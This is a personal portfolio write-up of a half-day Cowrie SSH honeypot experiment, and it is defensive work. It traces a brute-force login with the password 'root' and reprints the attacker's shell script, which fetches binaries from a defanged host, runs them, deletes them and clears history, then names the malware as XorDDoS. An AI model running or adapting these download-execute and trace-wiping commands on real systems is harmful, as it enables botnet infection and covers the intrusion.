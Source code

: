 ```yaml
---
layout: default
---
```

### [Home](../../index.md) | [Projects](../index.md)

# Cowrie & The Infrastructure Used

Cowrie is a honeypot designed to log brute-force attacks and attacker shell interactions. It supports ingesting logs into various log aggregation services. Since I have extensive experience with SQL, I chose to store its logs in a MySQL database.

### Infrastructure:

- Azure Virtual Machine
 - Linux (Ubuntu Server 24.04)
  - Services:
   - Cowrie (Honeypot)
   - MySQL (Log Storage)
   
## Running Cowrie
 
 I ran Cowrie for just half a day, and even in that short time, I observed some very interesting and suspicious behavior. Almost immediately, I started seeing clear signs of brute-force attacks.
 
![Brute Force Start](project_images/sql_bf.png)
 
From this image, we can see an attack originating from **218.92.0.186**. Other random IPs also appear from time to time, which we will discuss later.

To see the full extent of this brute-force attack, you can review the .csv file [here](project_files/auth_ip.csv).

We can see that the brute-force attack started at _12:40:02_ from IP **218.92.0.186**. The attacker successfully gained access to the system at _15:08:35_, meaning it took them a little over two hours to guess the correct password—**root**.

![Brute Force Success](project_images/bf_success.png)

It appears that the attacker used **218.92.0.186** to carry out the brute-force attack and, once successful, handed access over to **218.92.0.131**, likely to handle malware delivery.

#### Here is a report from _VirusTotal_ on both IPs:

*	[218.92.0.186](https://www.virustotal.com/gui/ip-address/218.92.0.186)
*	[218.92.0.131](https://www.virustotal.com/gui/ip-address/218.92.0.131)

Now that the attacker is inside our Honeypot we can track every command they run.

![Malware Delivery](project_images/inputs.png)

From this image we can clearly see the attacker ran a script and downloaded something from another IP using _wget_ and _curl_, lets break this command down. 

```
#!/bin/sh
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; # Ensures standard system paths are included in the script’s environment. 
wget hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the file "112" using wget.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the same file using curl, ensuring it keeps the original filename.
chmod +x 112;  # Makes "112" executable.
./112;  # Executes "112".
wget hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads another file named "112s" from the same server.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads "112s" while preserving its name.
chmod +x 112s;  # Makes "112s" executable.
./112s;  # Executes "112s".
rm -rf 112.sh;  # Deletes "112.sh".
rm -rf 112;  # Deletes "112" after execution.
rm -rf 112s;  # Deletes "112s" after execution.
history -c  # Clears the shell history to erase evidence of the commands.

```

**Note:** I have defanged the IP of the malware-hosting server for safety.
It appears that the attacker runs both wget and curl, likely to ensure the download succeeds in case one of the utilities is unavailable on the system.

![Malware-Hosting Server](project_images/malware_host.png)

We can see the full report on the Malware-Hosting Server [here](https://www.virustotal.com/gui/ip-address/43.249.172.195).

## The Malware

We can see that the attacker downloaded something—but what?
Luckily for us, Cowrie has excellent logging and provides a SHA-256 hash of the downloaded file.

![SQL Hash](project_images/sql_shasum.png)

**SHA-256 Hash:** ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73

Now that we have the hash, we can submit it to VirusTotal to analyze it and determine what kind of malware we’re dealing with.

![Virus Total Hash](project_images/virustotal_hash.png)

See the full report from _VirusTotal_ [here](https://www.virustotal.com/gui/file/ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73)

## XorDDoS: The Malware Behind the Attack

From this report, we can see that this file is identified as a Trojan linked to XorDDos, a well known Linux malware strain used to launch DDoS attacks.

#### What is XorDDoS:

*	XorDDoS is a Linux-based malware that has been active since at least 2014.
*	It gets its name from its use of XOR-based encryption to obfuscate communication between infected machines and the command-and-control (C2) servers.
*	XorDDoS primarily targets Linux servers and IoT devices, turning them into botnets to launch massive DDoS attacks against websites and infrastructure.
*	Once inside, it downloads additional payloads, executes them, and then cleans up traces by deleting logs—exactly what we saw in our attack!

#### XorDDos Capabilities:

*	**Launching DDoS Attacks** – Uses infected machines to generate high-volume traffic aimed at bringing down targets.
*	**Persistence & Evasion** – It modifies system settings to survive reboots and evade detection.
*	**Backdoor Functionality** – Allows remote attackers to execute arbitrary commands on the compromised system.
*	**Obfuscation** – Uses XOR-based encryption to disguise network traffic.

#### What This Means for Our Honeypot:

*	The attacker brute-forced their way into our honeypot.
*	They quickly downloaded a XorDDoS variant and executed it.
* 	Their goal was likely to recruit our system into a botnet to launch DDoS attacks against other targets.
*	They also attempted to cover their tracks by deleting logs and clearing history.

#### Key Takeaways

*	Cowrie provided valuable insights into how attackers deliver and execute malware.
*	XorDDoS remains an active Linux threat, and honeypots like this help expose its tactics.

## Conclusion

This experiment with Cowrie provided a firsthand look at real-world SSH brute-force attacks and malware delivery techniques. By capturing and analyzing attacker activity, we uncovered how XorDDoS spreads and operates. This highlights the importance of strong authentication, monitoring logs, and proactive security measures to defend against such threats.

### Docs & Other Files
*	[Cowrie Docs](https://docs.cowrie.org/en/latest/)
*	[Cowrie GitHub](https://github.com/cowrie/cowrie)
*	[Project Images](project_images/)
*	[Project Files](project_files/)




### Contact
Sean McGovern

La Grange, North Carolina 

[Linkedin](https://www.linkedin.com/in/sean-mcgovern-310457272/) 











